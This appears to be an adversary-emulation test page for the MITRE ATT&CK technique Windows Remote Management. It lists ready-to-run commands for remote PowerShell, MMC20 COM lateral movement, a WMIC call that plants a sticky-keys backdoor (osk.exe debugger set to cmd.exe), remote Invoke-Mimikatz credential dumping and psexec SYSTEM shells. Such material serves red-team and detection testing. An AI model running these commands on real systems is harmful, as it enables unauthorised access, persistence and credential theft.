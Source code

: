 # Windows Remote Management

## MITRE ATT&CK Technique:
[T1028](https://attack.mitre.org/wiki/Technique/T1028)

## Enable Windows Remote Management

### Input:

    powershell Enable-PSRemoting -Force

## Powershell lateral movement using the mmc20 application com object

### Input:

    powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","<computer_name>")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")

#### Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/


## WMIC Process Call Create

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

## PowerSploit Invoke-Mimikatz WinRM

    powershell-import /local/path/to/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1
    powershell Invoke-Mimikatz -ComputerName TARGET

### Reference:

 https://blog.cobaltstrike.com/2015/07/22/winrm-is-my-remote-access-tool/

## psexec

### Input:

`psexec \\host -u domain\user -p password -s cmd.exe`

#### Note:

Using psexec will start a new process and create an EVENT ID on the remote host.
